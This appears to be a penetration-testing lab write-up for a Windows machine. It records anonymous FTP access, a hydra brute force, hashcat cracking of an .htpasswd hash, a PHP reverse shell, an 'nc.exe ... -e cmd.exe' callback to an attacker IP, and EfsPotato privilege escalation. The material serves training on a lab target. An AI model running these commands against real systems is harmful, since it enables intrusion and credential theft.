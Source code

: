 ## Takeaway
## Metadata
- Port `21` is running `FTP Server` that allows anonymous login. After running `wget -m ftp://anonymous:@192.168.222.46`, one can not download all the files because of the lack of read privilege.
	- However, one can indeed find couple accounts (`Offsec`, `admin`) on the `FTP Server` under `accounts` directory.![[Pasted image 20240322123109.png]]
- Brute force password for user `Offsec` and `admin` with `hydra -L ftp_user.txt -P /usr/share/wordlists/seclists/Passwords/twitter-banned.txt  -e nsr 192.168.222.46 ftp`. One can identify valid credential pair as `admin:admin`![[Pasted image 20240322123410.png]]
- Using `wget -m ftp://admin:admin@192.168.222.46`, one can retrieve `index.php`, `.htpasswd`, `.htaccess` which potentially contains passwords to access port `242`.
	- One can locate a pair of credential in `.htpasswd` as `offsec:$apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0` where `hashid` identifies as `Apache MD5`.![[Pasted image 20240322123922.png]]![[Pasted image 20240322123943.png]]
	- Run `hashcat -m 1600 offsec.hash /usr/share/wordlists/rockyou.txt --force --username` to crack the credential pair as `offsec:elite`.![[Pasted image 20240322124316.png]]
	- According to `.htaccess`, the FTP Server is serving user `admin` from `c:\\wamp\www\`![[Pasted image 20240322124533.png]]
# Exploitation
## Shell as apache
- Generate payload with `Reverse Shell Generator` and upload using FTP Server.
- Navigate to `http://192.168.222.46:242/rev.php` to trigger the reverse shell call back to get an ugly shell.
- Upload `nc.exe` and run `.\nc.exe 192.168.45.189 443 -e cmd.exe` to get an interactive session.
# PrivEsc
- Kernel Exploit since fresh install of `Windows 2008R2 Server`.
- Abuse `SeImpersonatePrivilege` with `EfsPotato`
	- Compile yourself
	- Meterpreter